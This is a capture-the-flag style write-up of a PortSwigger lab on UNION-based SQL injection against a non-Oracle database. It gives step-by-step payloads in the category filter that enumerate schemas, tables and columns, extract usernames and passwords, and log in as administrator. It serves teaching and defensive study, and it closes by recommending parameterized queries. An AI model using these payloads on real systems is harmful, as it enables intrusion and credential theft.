

# [Lab 5: SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)


### Overview
This lab demonstrates a SQL injection attack that allows an attacker to list the contents of the database on non-Oracle databases. The vulnerability exists in the product category filter, and a UNION attack is used to retrieve data from other tables, including usernames and passwords.

### Steps to Exploit

1. **Identify the Number of Columns:**
   - Use the following payload to determine the number of columns:
     ```plaintext
     category=Pets' UNION SELECT NULL,NULL -- -
     ```
   - This confirms that the query returns two columns.
   

2. **List Schemas:**
   - Retrieve the list of schemas using:
     ```plaintext
     category=Pets' UNION SELECT NULL,schema_name FROM information_schema.schemata-- -
     ```
   - The response shows the available schemas.
   

3. **List Tables in 'public' Schema:**
   - Retrieve the list of tables in the 'public' schema using:
     ```plaintext
     category=Pets' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_schema='public' -- -
     ```
   - The response shows the tables in the 'public' schema.
   

4. **List Columns in 'users_ufessl' Table:**
   - Retrieve the list of columns in the 'users_ufessl' table using:
     ```plaintext
     category=Pets' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_ufessl'-- -
     ```
   - The response shows the columns in the 'users_ufessl' table.
   

5. **Retrieve Usernames and Passwords:**
   - Retrieve the usernames and passwords from the 'users_ufessl' table using:
     ```plaintext
     category=Pets' UNION SELECT password_yypinv,username_rwjztx FROM public.users_ufessl-- -
     ```
   - The response shows the usernames and passwords.
   

6. **Login with Retrieved Credentials:**
   - Log in with the credentials for the 'administrator' user to solve the lab.
   

### Conclusion
This lab provides a practical example of how SQL injection vulnerabilities can be exploited to list the contents of a database on non-Oracle databases. It emphasizes the importance of implementing secure coding practices and using parameterized queries to prevent such attacks.
